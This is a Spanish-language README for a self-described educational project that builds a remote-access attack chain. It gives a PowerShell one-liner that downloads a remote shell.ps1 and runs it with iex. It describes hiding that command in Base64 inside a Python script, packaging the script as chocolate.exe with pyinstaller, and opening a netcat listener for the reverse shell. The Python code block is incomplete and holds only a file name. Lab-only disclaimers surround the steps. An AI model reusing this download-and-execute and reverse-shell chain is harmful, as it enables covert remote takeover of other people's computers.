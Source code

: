 # Remote Code Execution Educational Project
⚠️ **ADVERTENCIA CRÍTICA: PROYECTO SOLO PARA FINES EDUCATIVOS**

---

## Descripción del Proyecto
Este repositorio contiene código educativo diseñado exclusivamente para comprender el funcionamiento de los RAT (Remote Administration Tools) y técnicas de ejecución remota de código. El objetivo es proporcionar material de estudio para profesionales de ciberseguridad, investigadores y estudiantes en entornos controlados.

🚨 **USO RESPONSABLE REQUERIDO**

- Solo ejecutar en laboratorios aislados  
- Nunca utilizar contra sistemas sin autorización explícita  
- Comprender las implicaciones legales antes de proceder

---

## Estructura del Proyecto

### Paso 1: Ejecución Remota mediante PowerShell Ofuscado
El proyecto implementa una técnica común de ofuscación usando Base64 para ejecutar código PowerShell remotamente.

**Comando Original:**
```powershell
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/akthanon/cybersecurity-tools/refs/heads/main/shell.ps1')"
```

```python
import os

# Comando PowerShell ofuscado en Base64 con osfuscarshell.py

chocolate.py
```

---

### Paso 2: Compilación a Ejecutable
Compilación del script Python a archivo ejecutable:

```
chocolate.exe
```

```bash
pyinstaller --onefile .\chocolate.py
```

---

### Shell PowerShell (`shell.ps1`)
Código para establecer conexión reversa:

```
shell.ps1
```

---

### Configuración del Listener
En la máquina atacante (solo para pruebas educativas):

```bash
nc -lvnp 4444
```

---

### Payload de Ejemplo (Divertido)
```
...
$url = "https://www.adslzone.net/app/uploads-adslzone.net/2017/01/hacked.jpg"; $output = "imagen.jpg"; Write-Host "Descargando imagen desde $url..."; Invoke-WebRequest -Uri $url -OutFile $output; if (Test-Path $output) { Write-Host "Imagen descargada correctamente."; Start-Process $output } else { Write-Host "Error: No se pudo descargar la imagen." }; $video = "https://www.youtube.com/watch?v=dQw4w9WgXcQ"; Write-Host "Abriendo video de YouTube..."; Start-Process $video

```

---

## 🔒 Advertencias de Seguridad

⚠️ **DECLARACIÓN LEGAL IMPORTANTE**

- **USO ÉTICO OBLIGATORIO:** Este código debe usarse solo con fines educativos.  
- **AUTORIZACIÓN REQUERIDA:** Nunca ejecutar en sistemas sin permiso explícito.  
- **RESPONSABILIDAD DEL USUARIO:** El mal uso de este material es responsabilidad exclusiva del usuario.  
- **CONSECUENCIAS LEGALES:** El uso no autorizado puede violar leyes locales e internacionales.

---

## Configuración Segura Recomendada
- Ejecutar en máquinas virtuales aisladas  
- Usar redes de laboratorio separadas  
- Desactivar conexión a internet durante pruebas  
- Monitorear con herramientas de seguridad

---

## Objetivos Educativos
- Comprender técnicas de ofuscación de código  
- Analizar mecanismos de ejecución remota  
- Estudiar patrones de comportamiento de RAT  
- Desarrollar contramedidas de detección

---

## Contribuciones
Se aceptan contribuciones que mejoren el valor educativo o añadan análisis de detección y prevención.

---

⚠️ **RECUERDA:** El conocimiento es poder, pero la responsabilidad es esencial. Usa este material sabiamente.
